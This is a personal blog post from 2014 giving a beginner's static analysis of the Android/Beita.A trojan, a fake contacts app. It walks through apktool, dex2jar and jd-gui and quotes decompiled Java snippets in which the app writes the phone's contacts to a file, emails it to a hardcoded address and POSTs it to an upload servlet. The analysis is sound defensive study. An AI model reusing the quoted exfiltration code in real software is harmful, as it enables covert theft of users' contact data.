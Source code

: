 +++
title = 'Android/Beita.A malware analysis'
author = ['James Espinosa']
description = 'My first analysis of Android-based malware.'
date = 2014-01-05T21:34:00-08:00
draft = false
tags = ['Malware Analysis', 'Reverse Engineering']
+++

Recently, I started reading [Decompiling Android](http://www.apress.com/9781430242482) by Godfrey Nolan, primarily out of interest and curiosity. Obviously, I have an interest in malware and all-things *threatsy, maliciously* and *shady* (I made those words up, just now). Anyway, I figured I'd give this Android malware sample and whirl, and see what that side of the world looks like. This post will be my first analysis on this subject, so it most certainly may not be complete - but I'll try my best.

First, I'll mention some of the tools in my arsenal. I probably didn't need all of the following, but they certainly helped in one way or another. Here's what I used to decompile and analyze this sample:

- [apktool](https://code.google.com/p/android-apktool/) - a tool for reverse engineering Android apk files
- [dex2jar](https://code.google.com/p/dex2jar/) - tools to work with Android .dex and Java .class files
- [jd-gui](http://jd.benow.ca/) - a fast standalone graphical Java decompiler for .class files

There are many other tools available out there - but these seemed to get the job done for me. Feel free to explore other popular ones, such as [smali](https://bitbucket.org/JesusFreke/smali/downloads), an assembler/dissasembler for Android's .dex file format, as well as several others. Do some Google magic.

Anyway, on to the show. After receiving the apk file, the first thing that I did was unzip the file to see its contents. Here's what I found inside:

```
AndroidManifest.xml
META-INF/
classes.dex
com/
dsn.mf
javamail.charset.map
javamail.default.address.map
javamail.default.providers
javamail.imap.provider
javamail.pop3.provider
javamail.smtp.address.map
javamail.smtp.provider
mailcap
mailcap.default
mimetypes.default
org/
res/
resources.arsc
```

This doesn't tell a lot, but at a first glance it looks like it has some kind of email capability. Lets explore further.

Next, I used `apktool` to help perform a lot of magic with the apk file. Specifically, this tool decodes the `AndroidManifest.xml` file that contains information about the application's permissions, as well as run the apk file through `baksmali` to dissasemble the `classes.dex` file that we need to analyze.

Here's the command that I ran and the corresponding output:

```
$ java -jar apktool.jar d beita.apk ~/delicious/malicious/
```

Basically, that will dump all of the juicy files into the directory of your choosing. Here's the result:

```
res/
smali/
AndroidManifest.xml
apktool.yml
```

Those two files provide a lot of information about the application. We're specifically interested in the SDK version that it targets, as well as the permissions that the application requires. Lets crack that decoded `AndroidManifest.xml` file open and take a look inside.

```
<manifest android:versionCode="1" android:versionName="1.0" package="com.beita.contact"
<uses-permission android:name="android.permission.READ_CONTACTS" />
<uses-permission android:name="android.permission.WRITE_CONTACTS" />
<uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE" />
<uses-permission android:name="android.permission.INTERNET" />
```

Inside of the `apktool.yml`:

```
sdkInfo:
	minSdkVersion: '5'
packageInfo:
	cur_package: com.beita.contact
    orig_package: com.beita.contact
```

As you can see, this application requests permissions to read and write contacts from the phone - as well as write to external storage like an SD card, I imagine, and access the Internet. The `minSdkVersion` specifies that the minimum version that this application will run on is version 5 - which if I'm correct, translates to Android 2.0 (Eclair).

So far it appears that this application will do something with the phone's contacts and the Internet. If you put the two together, it almost seems like this malware will harvest the user's contacts and exfiltrate them out to some remote location. Lets explore further.

The next step that I took was convert our `classes.dex` file into a `jar` file that we can easily decompile using `jd-gui`. Here's what that looks like:

```
$ dex2jar.sh ~/delicious/beita.apk
```

Simply pass the path to the apk file that you want to convert, and out will magically appear a `beita.jar` file that can be dropped into `jd-gui` for further analysis.

Here's a snapshot of the more interesting classes:

```
com/
	beita.contact/
    	Application
        ContactColumn
        ContactEditor
        ContactUtil
        ContactView
        ContactsProvider
        DBHelper
        MailUtil
        MyContacts
        Person
        UploadUtil
```

There's actually a lot more in here, but I'm only going to dig through the interesting ones and provide my conclusion based on some key findings.

At a first glance, one might think that it's just another contacts application. Lets take a look at snippets from the `MyContacts` class.

```
private boolean backup()
{
	for (;;)
    {
    	StringBuffer localStringBuffer;
        Iterator localIterator3;
        try
        {
        	File localFile = new File(Application.sdcardPathString + "/contact_backup.txt");
            if (localFile.exists()) {
            	localFile.delete();
            }
<--snip-->
{
	MailUtil.sendByJavaMail("zhangdafeng2012@126.com", "zhangdafeng2012@126.com" ...
    UploadUtil.uploadFile();
    return null;
}
```

The application creates a file called `contact_backup.txt` in the phone's SD card if it is mounted. I should also mention, there are many Chinese characters in the source code, which helps provide possible origin and/or target. Another interesting item to note, it looks like we're emailing that `contact_backup.txt` file. If we switch over to the `UploadUtil` class, here's some interesting items:

```
public class UploadUtil
{
	private static String srcPath = Application.sdcardPathString + "/contact_backup.txt";
   	public static void uploadFile()
    {
    	try
        {
        	HttpURLConnection localHttpURLConnection = (HttpURLConnection)new URL("http://192.168.2.105:8080/upload_file_service/UploadServlet").openConnection();
            localHttpURLConnection.setRequestMethod("POST")
            localHttpURLConnection.setRequestProperty("Connection", "Keep-Alive");
            localHttpURLConnection.setRequestProperty("Charset", "UTF-8");
            localHttpURLConnection.setRequestProperty("Content-Type", "multipart/form-data;boundary=" + "******");
<--snip-->
```

You get the idea. Basically, it sends the contacts that are harvested in that file. The `Person` class contains what you would expect to see:

- id
- name
- addresses
- email addresses
- phone numbers

The `DBHelper` class creates a SQLite database called `mycontacts.db` with a single table named `contacts`, which stores information about the contacts. I haven't spent enough time trying to understand this part - at this point I'm just assuming that contacts get stored in this DB file - but part of me doubts it a bit - I'll probably explore more later.

Anyway, that is all I have for now. To quickly summarize what I believe I have made sense of - is that this Android application essentially is a Trojan horse that poses as a fake contacts management application that harvests the phone's contacts and writes them out into a file that gets exfiltrated out of the phone via email. We noted the POST request as well, but to a private address - which doesn't make sense unless it's for testing or something (still need to investigate more). The purpose of this was just to get my feet wet and try something new and different - it's likely that I missed something or provided an incorrect analysis. Either way, it was fun!
